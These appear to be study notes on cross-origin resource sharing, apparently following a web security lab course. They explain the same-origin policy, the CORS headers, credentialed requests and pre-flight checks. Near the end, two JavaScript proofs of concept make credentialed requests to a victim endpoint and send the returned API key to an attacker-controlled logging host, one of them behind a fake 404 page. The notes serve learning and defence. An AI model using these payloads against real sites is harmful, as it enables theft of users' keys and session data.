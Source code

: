 -------------

### Understanding Cross Origin Sharing

-------------

- It is a browser mechanism that grants permission control to a resource outside of a domain.It grants flexibility as against Same-Origin Policy(SOP).It provides potential for cross domain attacks if poorly configured.
- CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).
- Same-Origin policy limits the way a website interact with resources outside its domain.The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.
- A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted. These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.

------------

### CORS and Access-Control-Allow-Origin headers

------------

- Access-Control-Allow-Origin response header is included in the response from a website to a requesting website and identifies the permitting origin of the website.

------------

### Implementing simple cross-origin resource sharing

------------

- The cross-origin resource sharing (CORS) specification prescribes header content exchanged between web servers and browsers that restricts origins for web resource requests outside of the origin domain.
- For example, suppose a website with origin normal-website.com causes the following cross-domain request:
```http
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com
```
-  The server on `robust-website.com` will return this response

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

- The browser will allow access to the resource because the `Origin` header matches the `Access-Control-Allow-Origin` specified in the response.The specification of Access-Control-Allow-Origin allows for multiple origins, or the value null, or the wildcard *. However, no browser supports multiple origins and there are restrictions on the use of the wildcard *.Values allowed-:

```
null
*
```

---------------

### Handling Cross Origin request with credentials

--------------

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS Access-Control-Allow-Credentials header to true. Now if the requesting website uses JavaScript to declare that it is sending cookies with the request.
- If the website uses javascript to send cookies

```http
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

- And the response to the request is-:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

- The browser will allow the requesting website to read the response because `Access-Control-Allow-Credentials` is set to `true`.Otherwise, it will not allow the response.


--------------

### Relaxation of CORS with wildcards

-------------

- The `Access-Control-Allow-Origin` allows wildcards `*`.

```http
Access-Control-Allow-Credentials: true
```
-  Also, the use of wildcard `*` with transfer of credentials `Access-Control-Allow-Credentials: true` is disallowed as this would be dangerously insecure, exposing any authenticated content on the target site to everyone.Given these constraints, some web servers dynamically create Access-Control-Allow-Origin headers based upon the client-specified origin. This is a workaround for CORS constraints that is not secure.

-------------

### Pre-flight Requests

------------

- The pre-flight check was added to the CORS specification to protect legacy resources from the expanded request options allowed by CORS.Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the `OPTIONS` method, and the CORS protocol necessitates an initial check on what methods and headers are permitted prior to allowing the cross-origin request. This is called the pre-flight check.The server returns a list of allowed methods in addition to the trusted origin and the browser checks to see if the requesting website's method is allowed.
- For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header:

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```
- Probable response-:

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

- This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials, and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse. If the request methods and headers are permitted (as they are in this example) then the browser processes the cross-origin request in the usual way. Pre-flight checks add an extra HTTP request round-trip to the cross-domain request, so they increase the browsing overhead.

------------

### Vulnerabilities on CORS

------------

### Server Side generated `Access-Control-Allow-origin` header from Client's request

------------

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

- Response-:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.
- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
- CORS with basic origin relection-:
- CSRF POC-:

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a23005b03c79d758046a3b900ae0022.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
      var data =  JSON.parse(this.responseText);
      var api_key =  data.apikey;
	location='//exploit-0aa200f703149d1080e1a274013200d6.exploit-server.net/?key='+api_key;
};
</script>
<meta name="referrer" content="never">
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

- In action-:

![image](https://github.com/user-attachments/assets/4e2516f7-5789-4eab-a738-05367c6b2ec9)


------------
